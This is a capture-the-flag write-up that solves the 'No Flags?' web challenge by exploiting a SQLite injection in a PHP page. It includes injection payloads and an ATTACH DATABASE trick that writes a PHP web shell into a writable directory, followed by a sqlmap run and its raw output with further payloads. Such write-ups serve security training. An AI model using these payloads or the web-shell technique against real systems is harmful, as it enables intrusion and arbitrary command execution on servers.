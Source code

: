 # No Flags?

![](Pasted%20image%2020220502175546.png)

## Solution

### Looking at `index.php`

The `flag` parameter is injectable, can add SQL Statements to it.
You can display custom output through the list of flags.

The SQL Version is sqlite, For example, you can check the SQL version like this

```
'); INSERT INTO Flags VALUES ((SELECT sqlite_version()));-- -
```

![](Pasted%20image%2020220502175624.png)

The version is 3.34.1

The database is generated per session, so nothing to look there.

On looking more into SQLite Injection, I found out you can write to files, however, testing with the `/var/www/html` directory fails. (Can check the dockerfile)

Link used is https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md

## Looking at `Dockerfile`

The executable we want to run is `/printflag`, and we can write to `/var/www/html/abyss` (since that directory is [chmod 333|https://chmodcommand.com/chmod-333/]). Hence, we can write a webshell and run custom code.

I ran this SQL Injection

```
'); ATTACH DATABASE '/var/www/html/abyss/index.php' AS lol;CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
```

Afterwards I ran 

![](Pasted%20image%2020220502175944.png)

Remember to delete `index.php` once done

## Flag

`actf{why_do_people_still_use_php}`

## SQLMap

```bash
sudo docker run --rm -it -v /tmp/sqlmap:/root/.sqlmap/ paoloo/sqlmap --url "https://no-flags.web.actf.co/" --forms --crawl=2 --level=3 --risk=2
```

```bash
[10:05:29] [WARNING] User-Agent parameter 'User-Agent' is not injectable
sqlmap identified the following injection point(s) with a total of 2276 HTTP(s) requests:
---
Parameter: flag (POST)
    Type: stacked queries
    Title: SQLite > 2.0 stacked queries (heavy query - comment)
    Payload: flag=zXEu');SELECT LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))--

    Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: flag=zXEu') UNION ALL SELECT 'qkjvq'||'uIYjPSVhwuuJGAAHaEaPqDLMraZuThPTLRwDFEeM'||'qpvpq'-- ByZO
---
do you want to exploit this SQL injection? [Y/n] y
[12:31:19] [INFO] the back-end DBMS is SQLite
web application technology: PHP 8.1.5
back-end DBMS: SQLite
[12:31:19] [WARNING] HTTP error codes detected during run:
502 (Bad Gateway) - 2 times
[12:31:19] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/root/.sqlmap/output/results-05022022_0857am.csv'

[*] shutting down at 12:31:19

(base) [hacker@hackerbook ~]$ 
```